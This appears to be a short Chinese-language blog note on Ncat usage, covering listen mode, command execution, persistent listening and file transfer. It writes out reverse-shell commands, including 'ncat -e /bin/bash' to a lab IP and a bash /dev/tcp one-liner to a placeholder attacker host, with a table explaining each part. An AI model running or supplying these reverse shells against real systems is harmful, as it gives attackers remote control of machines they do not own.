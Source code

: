```yaml
---
title: "Ncat Note"
date: 2022-03-19T13:18:56+08:00
draft: true
weight: 9
categories: ["安全工具"]
tags: ["安全工具", "Ncat"]
author: ["lavaicer"]
# author: ["Me", "You"] # multiple authors
---
```

## -l

使用监听模式，监控传入的信息 本机
`ncat -l 1234`

连接远程监控端口进行监控 目标机
`ncat <本机 ip> 1234`

## -e

将传入的信息以命令执行
`ncat -e -l /bin/bash <ip> 1234`

## -k ； -v

持久监听，客户端连接断掉，服务端依然保持运行
显示指令执行过程细节

## 内网弹 shell

> -w:设置等待连线的时间秒数

## bash 弹 shell

---

```markdown
bash -i >& /dev/tcp/攻击机ip/攻击机端口 0>&1
```

---

这条命令的作用等同于之前的 `ncat -w 10 -e /bin/bash 10.211.55.4 2333`

|           命令           |                           参数解释                           |
| :-----------------------: | :----------------------------------------------------------: |
|          bash -i          |                     产生一个bash交互环境                     |
|            >&            |      将联合符号前面的内容与后面结合然后一起重定向给后者      |
| /dev/tcp/10.211.55.4/2333 |      让目标主机与主机10.211.55.4的2333端口简历一个连接      |
|           0>&1           | 将标准的输入与标准输出内容相结合，然后重定向给前面的标准输出 |

## 文件传输

### 上传

收

`ncat -l 1234 > re.txt`

发

`ncat <ip> 1234 < send.txt`

### 下载

`ncat -l 1234 < send.txt`

`ncat <ip> 1234 > re.txt`
